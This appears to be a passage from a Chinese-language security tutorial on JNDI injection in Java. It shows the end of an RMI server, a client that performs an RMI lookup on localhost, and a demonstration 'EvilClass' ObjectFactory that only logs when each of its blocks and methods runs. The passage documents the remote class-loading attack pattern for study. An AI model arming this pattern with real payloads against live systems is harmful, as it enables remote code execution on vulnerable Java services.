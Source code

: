 ```plain

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```

客户端代码：

```plain
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.directory.*;
import java.util.Hashtable;

public class JNDILookup {
    public static void main(String[] args) {
        try {
            Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Foo");
            System.out.println("ret: " + ret);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

恶意类：

```plain
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilClass implements ObjectFactory {
    static void log(String key) {
        try {
            System.out.println("EvilClass: " + key);
        } catch (Exception e) {
            // do nothing
        }
    }

    {
        EvilClass.log("IIB block");
    }

    static {
        EvilClass.log("static block");
    }

    public EvilClass() {
        EvilClass.log("constructor");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        EvilClass.log("getObjectInstance");
        return null;
    }
```